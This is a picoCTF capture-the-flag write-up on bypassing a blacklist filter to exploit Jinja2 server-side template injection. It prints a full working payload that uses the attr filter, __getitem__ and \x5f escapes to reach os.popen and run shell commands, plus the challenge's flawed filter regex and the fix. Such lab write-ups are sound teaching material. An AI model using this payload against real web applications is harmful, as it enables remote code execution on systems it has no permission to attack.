



# SSTI2

`Category: Web Exploitation` · `Source: picoCTF` · `Difficulty: Medium`

> I made a cool website where you can announce whatever you want! I read about input
> sanitization, so now I remove any kind of characters that could be a problem :)

---

## First look

The page is identical to the one from SSTI1: a single field that announces back whatever I
submit. The difference is in the description, where the author now claims to strip the
"problematic" characters. So this is the same Server-Side Template Injection, but with a
blacklist filter sitting in front of it.



Before worrying about the filter, I checked that the injection itself is still there. I reused
my string trick from the first challenge:

```
{{7*'7'}}
```



The server still returns `7777777`, so the template engine evaluates my input. The vulnerability
is the same, only the easy payloads are now blocked.

---

## Mapping the filter

To know what I am allowed to use, I sent a handful of characters and watched what came back. The
quickest way to see the filter is to feed it a string full of suspicious symbols:

```
a_b.c[d]
```

![The input a_b.c[d] comes back as abcd](assets/filter.png)

The response is `abcd`. Every `_`, `.`, `[` and `]` is silently removed. That immediately kills
the gadget I used in SSTI1 (`cycler.__init__.__globals__...`), because it relies on dots for
attribute access, brackets for indexing, and dunder names full of underscores.

So I have three problems to solve at once:

- no dots, so no `obj.attr` access
- no brackets, so no `dict[key]` indexing
- no underscores, so I cannot even type names like `__globals__`

Jinja2 gives me a clean answer to each.

---

## Building a payload that survives the filter

The three tricks, one per obstacle:

- **Dots → the `attr` filter.** `obj|attr('name')` does the same thing as `obj.name`, and uses
  no dot.
- **Brackets → `__getitem__`.** Indexing `d[k]` is just `d|attr('__getitem__')(k)` under the
  hood, so I can subscript a dictionary without ever writing a bracket.
- **Underscores → `\x5f` escapes.** Inside a Jinja string literal, `\x5f` is decoded to an
  underscore at evaluation time. Since the filter only looks at the raw input, where there is no
  literal `_`, the dunder names pass through untouched. I confirmed this with `{{'\x5f\x5f'}}`,
  which prints `__`.

Now I just need a starting object that survives the filter. `request` does, and from it
`request.application` is a bound method whose `__globals__` give me access to the builtins. From
there it is the classic path to `os` and a shell command. Written with the three tricks, the
full payload is:

```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}
```

Read left to right, it does this:

1. `request|attr('application')` gives a method whose globals I want
2. `|attr('__globals__')` opens its global namespace (a dict)
3. `|attr('__getitem__')('__builtins__')` pulls the builtins dict out of it
4. `|attr('__getitem__')('__import__')('os')` imports the `os` module
5. `|attr('popen')('cat flag')|attr('read')()` runs the command and reads its output

---

## Getting the flag

One small catch: the filter also strips dots from the *command*, so `cat flag` is fine but
`cat app.py` would become `cat apppy`. Listing the directory first with `popen('ls')` shows a
file simply called `flag`, so a plain `cat flag` is all I need. Submitting the payload prints the
flag straight into the page:



```
picoCTF{sst1_f1lt3r_byp4ss_afa6aa72}
```

---

## Checking the source

Now that the injection template was pretty much confirmed. I read the source too (`cat app*`, to dodge the dot filter), and the whole improvement compared to the first challenge turns out to be a single line:

```python
announcement = re.sub(r'[_\[\]\.]|\|join|base', "", announcement)
```

It blacklists four characters and two strings, and it forgot that `|attr` replaces the dot, that
`__getitem__` replaces the bracket, and that `\x5f` escapes can rebuild any name it tried to ban.
None of it would have mattered if the input had been passed to the template as a bound variable
instead of concatenated into its source.
